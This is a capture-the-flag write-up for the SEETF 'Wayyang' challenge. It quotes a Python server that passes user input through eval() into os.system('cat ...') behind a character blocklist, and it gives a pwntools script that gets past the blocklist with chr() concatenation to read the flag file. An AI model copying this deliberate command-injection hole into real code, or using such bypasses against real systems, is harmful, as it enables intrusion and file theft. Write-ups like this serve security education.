

# Wayyang



[Files](./Files/pwn_wayyang.zip)
In this challenge we are given a source file for a python program running on a server. Looking at the code we can see the user is greeted with a menu. 

```python
What would you like to do today?
1. Weather
2. Time
3. Tiktok of the day
4. Read straits times
5. Get flag
6. Exit
>>
```

Looking through the menu, option 4 stands outs.

```python
elif choice == 4:
        filename = input("which news article you want babe :)   ")
        not_allowed = [char for char in FLAG_FILE]

        for char in filename:
            if char in not_allowed:
                print("NICE TRY. WAYYANG SEE YOU!!!!!")
                os.system(f"cat news.txt")
                exit()

        try:
            os.system(f"cat {eval(filename)}")
        except:
            pass
```

Note: `FLAG_FILE = "FLAG"`
We have to some how obfuscate the string "FLAG" so that the call to `eval` reconstructs it and passes it to the system call to `cat`. One way we can do this is to use `chr()` to convert an integer into a character. We can then use '+' to build the characters into the string.

```python
>>>'+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG'])
#'chr(70)+chr(76)+chr(65)+chr(71)'
>>>eval('+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG']))
#'FLAG'
```

#### Code

```python
from pwn import *

r = remote("fun.chall.seetf.sg", 50008)
r.sendlineafter(b">> ",b"4")
payload = '+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG'])
r.sendlineafter(b":)   ", payload.encode())

print(r.recvall())
r.close()
#b'SEE{wayyang_as_a_service_621331e420c46e29cfde50f66ad184cc}'
```